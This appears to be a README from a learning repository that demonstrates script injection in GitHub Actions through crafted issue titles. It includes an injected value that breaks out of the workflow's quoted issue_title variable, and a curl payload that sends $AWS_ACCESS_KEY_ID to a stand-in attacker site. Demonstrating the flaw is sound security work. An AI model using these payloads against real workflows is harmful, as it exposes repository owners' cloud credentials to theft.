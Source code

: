 # Example Repo

This is a super simple example repository!

Experiments:

1. Script Injection
Creating a issue with title - a";echo Got your secrets"
" closes the double quotes in workflow line issue_title="${{ github.event.issue.title }}"
Title is just "a", rest is interpreted as sript -> echo Got your secrets
Outcome: 
In shell "echo Got your secrets" is printed

Creating a issue with title - a";curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID"
curl can be used to send a http request to my-bad-site.com
query paramets abc could be set to the variable $AWS_ACCESS_KEY_ID
Outcome:
The env var AWS_ACCESS_KEY_ID is accessed and value is send to my-bad-site.com
Access key is exposed


